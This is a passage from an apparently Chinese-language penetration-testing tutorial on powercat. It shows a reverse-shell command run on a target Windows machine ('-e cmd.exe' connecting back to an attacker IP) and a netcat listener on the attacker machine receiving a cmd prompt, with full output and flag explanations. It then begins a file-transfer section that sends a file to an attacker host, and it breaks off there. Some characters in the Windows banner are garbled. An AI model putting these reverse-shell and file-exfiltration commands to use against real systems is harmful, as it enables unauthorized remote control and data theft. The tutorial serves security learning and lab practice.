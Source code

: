 ##### 目标

```powershell
PS C:\Users\Fun\Desktop> powercat -c 192.168.83.140 -p 8000 -v -e cmd.exe
详细信息: Set Stream 1: TCP
详细信息: Set Stream 2: Process
详细信息: Setting up Stream 1...
详细信息: Connecting...
详细信息: Connection to 192.168.83.140:8000 [tcp] succeeded!
详细信息: Setting up Stream 2...
详细信息: Starting Process cmd.exe...
详细信息: Both Communication Streams Established. Redirecting Data Between Streams...
```

* `-c`：指定建立连接的目标
* `-p`：指定端口



##### 攻击机

监听自己指定端口即可

```bash
root@For-Fun:~# nc -lvvp 8000
listening on [any] 8000 ...
192.168.83.182: inverse host lookup failed: Unknown host
connect to [192.168.83.140] from (UNKNOWN) [192.168.83.182] 49165
Microsoft Windows [▒汾 6.1.7601]
▒▒Ȩ▒▒▒▒ (c) 2009 Microsoft Corporation▒▒▒▒▒▒▒▒▒▒Ȩ▒▒

C:\Windows\system32>
```

* `-l`：监听
* `-p`：指定端口
* `-v`：显示详细信息







#### 3. 文件传输

* 前提：都导入了powercat，或者都可以使用powercat



##### 目标

```powershell
powercat -c IP -p 8080 -i c:/1.txt -v
```

* `-i`：写入文件





##### 攻击机
